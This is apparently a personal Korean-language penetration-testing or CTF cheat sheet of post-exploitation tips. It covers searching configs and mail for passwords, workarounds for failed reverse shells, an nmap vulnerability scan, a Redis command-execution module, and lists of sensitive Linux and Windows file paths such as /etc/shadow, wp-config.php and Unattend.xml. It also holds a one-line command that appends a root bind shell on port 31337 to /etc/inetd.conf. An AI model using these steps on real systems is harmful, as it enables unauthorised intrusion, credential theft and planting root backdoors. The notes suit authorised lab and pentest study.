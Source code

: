 - `config` 파일을 먼저 `find`로 모두 찾아본 뒤에 패스워드 혹은 해시가 적혀 있는지 확인

- password reuse

- `curl` 헤더 확인

- 사이트 제목 및 내용 확인

- `/var/mail`에 있는 내용 확인
- github에서 `"$pass"`로 pass 변수 찾기
---
# windows ssh file location
```powershell
C:\Users\<Username>\.ssh
```
---
# 리버스 셸 연결이 안될 때
- nc/bash/python3 등 리버스 연결이 되지 않는다면 elf 파일 혹은 exe 파일을 만들어서 전달해서 실행시켜보기.
- 리스닝 포트를 well knwon 포트(80,443 등)로 바꿔서 받아보기.

---
# inetd.conf(옛날 리눅스 환경)
```bash
echo '31337 stream tcp nowait root /bin/sh -i' >> /etc/inetd.conf"
```

- 31337번 포트로 바인드 셸 연결

---
# NMAP
```bash
sudo nmap --scrip vuln <ip>
```
- 취약점을 찾기 어려울 때 nmap 실행해서 확인
- /etc/hosts에 등록하고 난 뒤에 nmap 한번 더 실행해주기.

```bash
sudo nmap -Pn <ip>
```
- ping 테스트가 안되더라도 서버가 열려있을 수 있으니 확인
---
# FTP
- `ls -al`로 숨겨진 파일 확인 가능.
---
# Interesting File Path
```bash
/etc/passwd
/etc/shadow
/etc/issue
/etc/group
/etc/hostname

/var/log/apache/access.log
/var/log/apache2/access.log
/var/log/httpd/access_log
/var/log/apache/error.log
/var/log/apache2/error.log
/var/log/httpd/error_log
/var/log/messages
/var/log/cron.log
/var/log/auth.log

/var/www/html/wp-config.php <-- Wordpress
/var/www/configuration.php <-- Joomla
/var/www/html/inc/header.inc.php <-- Dolphin
/var/www/html/sites/default/settings.php <-- Drupal
/var/www/configuration.php <-- Mambo
/var/www/config.php <-- PHP
```
```powershell
C:/Windows/System32/drivers/etc/hosts
C:/Windows/Panther/Unattend/Unattended.xml
C:/Windows/Panther/Unattended.xml
C:/Windows/Panther/Unattend.txt
C:/Unattend.xml
C:/Autounattend.xml
C:/Windows/system32/sysprep

C:/inetpub/wwwroot
C:/inetpub/wwwroot/web.config
C:/inetpub/logs/logfiles
```
---
# Redis modules execute command
<img width="811" height="496" alt="image" src="https://github.com/user-attachments/assets/0426a9b3-32af-41ba-9bdf-e3585a712089" />

- https://github.com/n0b0dyCN/RedisModules-ExecuteCommand
---
# redis-cli
```bash
redis-cli -h <ip>
```
